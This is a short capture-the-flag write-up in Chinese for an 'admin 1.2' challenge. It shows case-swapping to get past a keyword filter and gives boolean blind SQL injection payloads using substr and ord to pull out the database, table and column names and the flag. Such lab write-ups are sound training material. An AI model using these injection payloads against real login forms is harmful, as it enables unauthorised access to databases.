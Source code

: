 admin 1.2
===

這題雖然有過濾`union select` 與 `select`，由於是使用`strstr`函數過濾，所以改變大小寫即可過濾。
但原本的 0.1 有 2 的位置輸出，現在沒有了。

透過`substr`的方式可以進行盲注。
但以下狀況都會成功回傳`True`。
```
\'/**/or/**/substr(database(),1,1)=0/**/#
\'/**/or/**/substr(database(),2,1)=0/**/#
\'/**/or/**/substr(database(),3,1)=0/**/#
```
也就是說字元儲存成HEX的型態，為了解決此問題有兩個解法，其將字元轉成 ASCII 對應的 10 進制。
1. ascii
2. ord

當注入以下得到 Database 第一個字元為`char(108) = 1`
```
\'/**/or/**/ord(substr(database(),1,1))=108#
```

寫個腳本讓他跑:
![](https://i.imgur.com/STui0rU.png)
![](https://i.imgur.com/AFEKsCj.png)

得到 DataBase 為 `login_as_admin1`

繼續往下探勘
取得 Table Name 為 `0bdb54c98123f5526ccaed982d2006a9`
![](https://i.imgur.com/Nmpsxm1.png)

取得 Column Name 為 `4a391a11cfa831ca740cf8d00782f3a6`
![](https://i.imgur.com/Hv38ngV.png)

Table 與 Column 長度皆為 30 不用腳本跑，手動嘗盲測真的會要命。
最後跑 flag 得 
`FLAG{W0W, You found the correct table and the flag, and UserAgent}`
![](https://i.imgur.com/z59O30L.png)